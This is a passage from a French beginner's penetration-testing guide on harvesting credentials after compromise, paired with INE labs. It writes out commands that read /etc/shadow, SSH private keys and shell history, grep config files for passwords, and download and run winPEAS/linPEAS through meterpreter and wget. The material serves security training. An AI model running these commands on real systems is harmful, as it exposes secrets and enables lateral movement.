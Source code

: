 **En clair, pour un débutant** : Ces techniques permettent d'extraire les mots de passe stockés dans la mémoire ou les fichiers système de Windows. C'est comme trouver un trousseau de clés qui pourrait ouvrir d'autres portes du réseau.

### Extraction d'identifiants sur Linux

Sur Linux, les identifiants sont stockés différemment :

```bash
# Fichiers de mots de passe et de shadow
cat /etc/passwd
cat /etc/shadow  # Nécessite des privilèges root

# Historique des commandes
cat ~/.bash_history

# Fichiers de configuration SSH
cat ~/.ssh/id_rsa  # Clé privée SSH
cat ~/.ssh/known_hosts  # Hôtes connus

# Identifiants stockés dans des fichiers de configuration
find / -name "*.conf" -o -name "*.config" -o -name "*.ini" 2>/dev/null | xargs grep -l "password"
```

**En clair, pour un débutant** : Ces commandes recherchent les mots de passe stockés dans différents fichiers sur un système Linux. C'est comme fouiller dans les tiroirs d'un bureau pour trouver des documents confidentiels.

### Utilisation des outils spécialisés

Des outils dédiés peuvent automatiser la collecte d'informations :

```bash
# Sur Windows, télécharger et exécuter winPEAS
meterpreter > upload /usr/share/peass/winpeas/winPEASx64.exe C:\\Windows\\Temp\\
meterpreter > shell
C:\Windows\Temp> winPEASx64.exe

# Sur Linux, télécharger et exécuter linPEAS
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

**En clair, pour un débutant** : Ces outils automatisent la recherche d'informations sensibles et de vulnérabilités sur un système compromis. Ils font en quelques minutes ce qui prendrait des heures manuellement, comme un détecteur de métaux qui trouve rapidement des objets cachés.

### Labs INE : "Windows Credential Dumping" & "Linux Credential Dumping"

Ces labs d'INE vous permettent de pratiquer l'extraction d'identifiants sur des systèmes Windows et Linux. Vous y apprendrez à :
- Utiliser Mimikatz/Kiwi pour extraire des identifiants Windows
- Exploiter les fichiers de configuration pour trouver des mots de passe
- Comprendre les différentes méthodes de stockage des identifiants selon le système
- Utiliser les identifiants extraits pour pivoter vers d'autres systèmes
